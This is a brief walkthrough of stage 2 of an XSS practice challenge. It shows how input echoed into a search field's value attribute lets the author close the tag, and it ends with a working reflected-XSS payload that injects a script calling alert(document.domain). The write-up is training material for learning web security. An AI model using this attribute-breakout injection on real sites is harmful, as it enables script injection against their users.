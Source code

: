 # **XSS Challenges Stage 2**

Like chanllenges Stage 1.
Let insert something to get the feedback look like.

![](https://i.imgur.com/UAGWUg0.png)

```
<input type="text" name="p1" size="50" value="aaa">   <input type="submit" value="Search">
```

Here we got that we should end the tag before creating new one.

Let's try ```"><a style="``` to see the feedback.

![](https://i.imgur.com/pqgrVnc.png)

Great, nothing back. It seems all offset we inserted just become part of code.

Let's see the source code of feedback.

```
<input type="text" name="p1" size="50" value=""> <a style="">   <input type="submit" value="Search">
```

Then the last step just to modify it to match the question's requirement.

```
"><script>alert(document.domain);</script><a style="
```